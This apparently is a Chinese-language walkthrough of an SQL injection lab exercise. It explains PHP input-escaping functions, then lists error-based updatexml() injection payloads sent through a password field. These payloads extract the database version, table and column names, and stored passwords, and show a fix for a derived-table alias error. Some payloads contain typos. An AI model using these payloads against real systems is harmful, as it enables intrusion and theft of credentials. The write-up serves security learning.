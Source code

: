 当magic_quotes_gpc=On的时候，函数get_magic_quotes_gpc()就会返回1

当magic_quotes_gpc=Off的时候，函数get_magic_quotes_gpc()就会返回0

magic_quotes_gpc函数在php中的作用是判断解析用户提示的数据，如包括有：post、get、cookie过来的数据增加转义字符“\”，以确保这些数据不会引起程序，特别是数据库语句因为特殊字符引起的污染而出现致命的错误。

在magic_quotes_gpc = On的情况下，如果输入的数据有

单引号（’）、双引号（”）、反斜线（\）与 NULL（NULL 字符）等字符都会被加上反斜线。

stripslashes()删除由 addslashes() 函数添加的反斜杠

ctype_digit()判断是不是数字，是数字就返回true，否则返回false

mysql_real_escape_string()转义 SQL 语句中使用的字符串中的特殊字符。

intval()     整型转换

但是对password没有太多的过滤

2.针对password进行爆破，由题目使用updatexml()函数报错

对版本进行测试爆破：

`uname=admin&passwd=admin' and updatexml(1,concat('~',version()),'~',1)--+ &submit=Submit`

爆库

`uname=admin&passwd=admin' and updatexml(1,concat('~',database()),'~',1)--+ &submit=Submit`

爆表

`uname=admin&passwd=admin' and updatexml(1,concat('~',(select group_concat(table_name) from information_schma.columns where table_schema=database()),'~'),1)--+ &submit=Submit`

爆列名

`uname=admin&passwd=admin' and updatexml(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_name='users' and column_name not in('user_id','user','first_name','last_name','avatar','last_login','failed_login')),'~'),1)`

尝试输出密码

`uname=admin&passwd=admin' and updatexml(1,concat(0x7e,(select group_concat(password) from users),0x7e),1) --+ &submit=Submit `

却发现了错误

[![0j3tBV.jpg](https://s1.ax1x.com/2020/10/18/0j3tBV.jpg)](https://imgchr.com/i/0j3tBV)

尝试加一层select

`uname=admin&passwd=admin' and updatexml(1,concat('~',(select password from (select password from users where username='admin')),'~'),1) --+&submit=Submit`

发现提示：every derived table must have its own alias

需要给查询的表添加一个别名

`uname=admin&passwd=12' and updatexml(1,concat('~',(select password from (select password from users where username='admin')a),'~'),1) --+&submit=Submit`

***
# less 18(基于错误的用户代理，头部POST注入)[存疑]
